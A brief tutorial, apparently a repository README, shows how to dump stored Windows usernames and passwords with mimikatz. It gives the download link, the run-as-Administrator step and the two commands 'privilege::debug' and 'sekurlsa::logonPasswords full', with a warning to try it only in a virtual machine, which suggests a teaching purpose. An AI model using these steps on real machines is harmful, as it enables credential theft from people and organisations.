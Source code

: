= mimikatz - copy, paste, GO!


This tutorial is meant to show how easy it is to steal credentials from a local machine if you have administrative control of that machine.

WARNING: *Only do this in a VM! Do not download mimikatz on a work computer.*

Download mimikatz

https://github.com/gentilkiwi/mimikatz/releases

Extract mimikatz

Execute the mimikatz.exe binary as Administrator.

Within the mimikatz window enter the following commands:

 $ privilege::debug

 $ sekurlsa::logonPasswords full

This should display a list of all the usernames and passwords that are stored on the computer.



